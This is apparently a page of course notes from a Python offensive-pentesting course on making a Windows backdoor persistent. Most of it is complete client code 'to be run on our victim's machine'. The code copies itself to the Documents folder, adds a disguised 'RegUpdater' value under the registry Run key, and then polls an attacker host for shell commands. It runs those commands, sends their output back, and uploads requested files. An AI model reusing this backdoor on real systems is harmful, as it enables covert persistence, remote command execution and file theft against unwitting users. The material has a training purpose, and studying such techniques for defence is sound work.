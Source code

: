 ```yaml
---
title: Making your binary persistent
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - persistence
  - registry
---
```


# Making your binary persistent

In order for a binary to persist, the binary must do three things:

**1.** To copy itself into a different location. We need source path (current working directory) and destination path, for instance, the Document folder. This means that we need to know the username: 

	```cmd
		c:\Users\<username>\Documents
	```
	
**2.** To add a registry key pointing to our new exe location. This is done only the first time.

**3.** For consecutive times, we have to avoid repeating steps 1 and 2.


## Phases for persistence

### 1. System recognition

Getting to know the current working directory + the user profile.


### 2. Copy the binary to a different location

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will copy the binary to a different location. For that, we need a source path (current working directory) and a destination path, for instance, the Document folder. This means that we need to know the current working directory (for the source path)  and the username (for the destination path): 

	```cmd
		c:\Users\<username>\Documents
	```

This information was already retrieved in step 1 (System recognition).

### 3. Add a Registry key 

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will add a Registry key.

### 4. Fire up our shell


## Client side

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import requests
import os
import subprocess
import time
import shutil 
import winreg as wreg

#Reconn Phase
path = os.getcwd().strip('/n')

Null, userprof = subprocess.check_output('set USERPROFILE', shell=True,stdin=subprocess.PIPE,  stderr=subprocess.PIPE).decode().split('=')

destination = userprof.strip('\n\r') + '\\Documents\\' + 'client.exe'

#If it was the first time our backdoor gets executed, then Do phase 1 and phase 2 
if not os.path.exists(destination):
    shutil.copyfile(path+'\client.exe', destination) #You can replace   path+'\client.exe' with sys.argv[0] ---> the sys.argv[0] will return the file name

    key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run", 0, wreg.KEY_ALL_ACCESS)
    wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ, destination)
    key.Close()



#Last phase is to start a reverse connection back to our kali machine

while True:
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)


```

